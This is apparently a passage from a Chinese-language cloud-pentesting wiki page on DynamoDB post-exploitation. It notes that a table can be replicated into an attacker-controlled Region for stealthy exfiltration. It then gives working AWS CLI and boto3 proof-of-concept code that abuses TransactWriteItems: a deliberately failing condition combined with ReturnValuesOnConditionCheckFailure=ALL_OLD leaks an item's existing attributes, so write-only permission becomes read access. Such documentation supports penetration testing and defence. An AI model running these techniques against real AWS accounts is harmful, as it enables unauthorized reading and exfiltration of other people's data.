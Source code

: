 权限：`dynamodb:UpdateTable`（带 `replica-updates`）或目标表上的 `dynamodb:CreateTableReplica`。如果 replica 使用 CMK，则可能需要对该密钥的 KMS 权限。

潜在影响：将整表复制到攻击者控制的 Region，导致 stealthy data exfiltration。

### `dynamodb:TransactWriteItems` (read via failed condition + `ReturnValuesOnConditionCheckFailure=ALL_OLD`)

具有事务性写权限的攻击者可以通过在 `TransactWriteItems` 内执行一个 `Update`，该操作故意使 `ConditionExpression` 失败，同时设置 `ReturnValuesOnConditionCheckFailure=ALL_OLD`，从而 exfiltrate 一个现有项的全部属性。失败时，DynamoDB 会在事务取消原因中包含之前的属性，有效地将仅写访问转换为对目标键的读取访问。

{{#tabs }}
{{#tab name="PoC (AWS CLI >= supports cancellation reasons)" }}
```bash
# Create the transaction input (list form for --transact-items)
cat > /tmp/tx_items.json << 'JSON'
[
{
"Update": {
"TableName": "<TableName>",
"Key": {"<PKName>": {"S": "<PKValue>"}},
"UpdateExpression": "SET #m = :v",
"ExpressionAttributeNames": {"#m": "marker"},
"ExpressionAttributeValues": {":v": {"S": "x"}},
"ConditionExpression": "attribute_not_exists(<PKName>)",
"ReturnValuesOnConditionCheckFailure": "ALL_OLD"
}
}
]
JSON

# Execute. Newer AWS CLI versions support returning cancellation reasons
aws dynamodb transact-write-items \
--transact-items file:///tmp/tx_items.json \
--region <region> \
--return-cancellation-reasons
# The command fails with TransactionCanceledException; parse cancellationReasons[0].Item
```
{{#endtab }}
{{#tab name="PoC (boto3)" }}
```python
import boto3
c=boto3.client('dynamodb',region_name='<region>')
try:
c.transact_write_items(TransactItems=[{ 'Update': {
'TableName':'<TableName>',
'Key':{'<PKName>':{'S':'<PKValue>'}},
'UpdateExpression':'SET #m = :v',
'ExpressionAttributeNames':{'#m':'marker'},
'ExpressionAttributeValues':{':v':{'S':'x'}},
'ConditionExpression':'attribute_not_exists(<PKName>)',
'ReturnValuesOnConditionCheckFailure':'ALL_OLD'}}])
except c.exceptions.TransactionCanceledException as e:
print(e.response['CancellationReasons'][0]['Item'])
```
{{#endtab }}
{{#endtabs }}
